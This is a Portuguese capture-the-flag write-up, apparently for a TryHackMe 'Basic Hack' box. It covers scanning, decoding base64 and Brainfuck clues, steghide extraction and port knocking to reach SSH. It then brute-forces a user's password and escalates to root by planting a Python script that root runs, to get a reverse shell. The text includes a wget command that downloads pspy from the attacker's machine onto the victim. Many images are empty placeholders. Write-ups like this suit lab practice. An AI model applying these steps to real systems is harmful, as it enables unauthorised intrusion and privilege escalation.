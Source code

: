 <h3>Começamos com uma varredura simples com nmap e uma varredura por diretórios.</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/THM%20-%20Basic%20Hack/1.jpg)

<h2>Lendo o código fonte, vemos uma mensagem do desenvolvedor para alguém - jubiscleudo - e mencionando sobre o port knocking, logo sabemos que tem algum serviço oculto. Também encontramos o caminho para uma página de login </h2>

![img]()

Analisando o arquivo robots.txt vemos que a pasta config não está permitada -> Disallow: /config
acessando ela temos um arquivo chamada 1.txt, usando o hashanalyser(https://www.tunnelsup.com/hash-analyzer/) sabemos que se trata de um base64, fazendo o decode temos o seguinte: 10000

![img]()
![img]()
img3
img3.1

Procurando nos outros diretórios(/css) encontrei o 2.txt, se trata de um Brainfuck, pesquisando por decode brainfuck encontramos algumas opções e temos como resultado 4444.

![img]()
![img]()
img4
img4.1

Vemos uma wordlist na pasta backup que nos será útil mais tarde

![img]()
img5

Pesquisando um pouco sobre port knocking nota-se que por default ele vem com as portas 7000,8000,9000 (3 portas são necessárias), seguindo essa lógica temos apenas os valores 1 e 2, existem 3 formas de encontrar o 3 arquivo.

1° FORMA: Fazendo uma varredura de diretórios por extensão(os 2 primeiros eram txt, o 3° não é! por isso sempre faça uma varredura "genérica")
![img]()
img6.1

2° FORMA: Na varredura também podemos encontar um outro arquivo html(home.html), acessando ele e vendo a fonte vemos um comentário bem explícito que existe algum arquivo.jpg que temos que buscar, isso simplificaria muito a busca
![img]()
![img]()
img6.2
img6.2.1

3° FORMA: Na página de login que encontramos anteriormente, tentando fazer login vemos que não acontece nada pois ainda está em desenvolvimento, porém vendo a fonte encontramos nosso 3.jpg lá!
![img]()
img6.3

Abrindo o 3.jpg já percebe-se que se trata de esteganografia, usaremos o steghide, usando o info vemos que existe algo lá dentro, agora extraimos ele(ao pedir senha pode apenas apertar enter já que o arquivo não possui senha). Assim temos nossa última "senha: 65535"
![img]()
img7

Usaremos o knock para "abrir" o serviço oculto, usando a mesma ordem das senhas 1-2-3, se trata de um ssh
![img]()
img8

Agora entra a wordlist que encontramos antes, como usuário temos o jubiscleudo, faremos um brute force e entraremos via ssh
![img]()
img9

A 1° flag está oculta, ls -la
![img]()
img10


Dando uma olhada nos arquivos de /var/www/html conseguimos as credenciais para outro usuário
![img]()
img11


Após fazer login no usuário hackable_3 executaremos o [pspy](link_pspy) - periodicamente  o root(UID=0) executado "python3 /scripts/to_hackable_3.py", indo até a pasta não existe o arquivo, então basta criarmos um arquivo com o mesmo caminho que será executado pelo root

atacante: python3 -m http.server
vítima: wget http://ip_kali:8000/pspy
	chmod +x
	./pspy

![img]()
img12

Agora é hora da criatividade, o root está executando nosso arquivo python, no nosso caso queremos conseguir uma reverse shell

para o reverse shell usei o de python -> [seguinte](https://shellgenerator.github.io/):
![img]()
img13

Deixamos nosso netcat ouvindo e aguardamos o processo executa nosso arquivo
![img]()
img14